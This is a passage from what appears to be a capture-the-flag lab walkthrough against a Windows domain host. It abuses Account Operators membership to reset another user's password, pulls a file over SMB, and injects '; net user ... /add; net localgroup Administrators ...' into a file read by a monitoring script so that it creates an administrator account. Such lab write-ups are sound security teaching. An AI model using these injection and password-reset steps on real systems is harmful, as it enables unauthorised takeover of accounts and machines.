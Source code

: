 ```powershell
$OutageHosts
Write-Host ""
Write-Host "Sleeping $SleepTimeOut seconds"
sleep $SleepTimeOut
if ($OutageHosts.Count -gt $MaxOutageCount)
{
    # If there are more than a certain number of host down in an hour abort the script.
    $Exit = $True
    $body = $OutageHosts | Out-String
    Send-MailMessage -Body "$body" -to $notificationto -from $notificationfrom `
     -Subject "More than $MaxOutageCount Hosts down, monitoring aborted" -SmtpServer $smtpServer
}
}
while ($Exit -ne $True)
```


it looks like this code is checking the status of some hosts every 1 minute, from a file stored at ```C:\Users\brittanycr\hosts.txt```.

when we try to read brittanycr's directories, our access is denied.

![brittanycr](/brittanycr.png)

if we run the command ```whoami /groups``` as buse, we'll see that buse is in the group "account operators".

![whoamigroups](/whoamigroups.png)

account operators can change passwords for other users, which means buse can change the password for brittanycr.

```
net user brittanycr wEiRdP@$$W0rd1234! /domain
```

(i chose this password because it complies with the password policy.)

once the password has been changed, let's try to get that file at ```C:\Users\brittanycr\hosts.txt```. since the checkservers.ps1 script reads from this file without being too annoying about checking what's in it, we're gonna inject a little bit of code into it and get the script to run it. this will be our ticket into getting root access.


getting in:

```
smbclient \\\\windcorp.thm\\Users -U brittanycr --password wEiRdP@$$W0rd1234!
```

navigate to the folder above and download the hosts.txt file, then edit it to add the following bit of code:

```
; net user bilal 'p*s$w0rd123' /add; net localgroup Administrators bilal /add
```

![hosts](/hosts.png)
